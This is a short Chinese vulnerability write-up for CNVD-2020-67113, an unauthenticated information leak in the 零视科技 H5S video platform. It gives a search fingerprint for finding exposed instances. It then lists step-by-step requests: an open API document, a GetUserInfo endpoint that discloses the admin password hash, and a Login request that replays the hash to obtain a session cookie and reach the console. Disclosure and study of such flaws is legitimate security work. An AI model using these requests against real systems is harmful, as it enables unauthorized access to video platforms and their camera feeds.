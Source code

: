 

# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞  CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。
零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

<a-checkbox checked>零视科技 H5S视频平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="H5S视频平台|WEB"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1636073252475-8f3cb570-d930-46e3-b8a6-0a686773c84a.png)

API文档可以未授权访问

```php
/doc/api.html
```

![img](/assets/PeiQi-Wiki/img/1636074612323-f1fee2de-e43f-4842-9e03-8066f9a1b7fc.png)

存在用户账号密码泄漏的接口

```php
/api/v1/GetUserInfo?user=admin&session=
```

![img](/assets/PeiQi-Wiki/img/1636073746405-1adf993c-1e08-461a-9f7f-a3ab07f969ad.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```php
/api/v1/Login?user=admin&password=02ed400b8d9289f311fc1d68a83fdaaa
```

![img](/assets/PeiQi-Wiki/img/1636073812938-d82c758c-891a-40aa-9e17-037339b99765.png)

请求成功后访问主页面

![img](/assets/PeiQi-Wiki/img/1636073852540-6758c6d5-f945-4aec-8c53-53328c3cbc7d.png)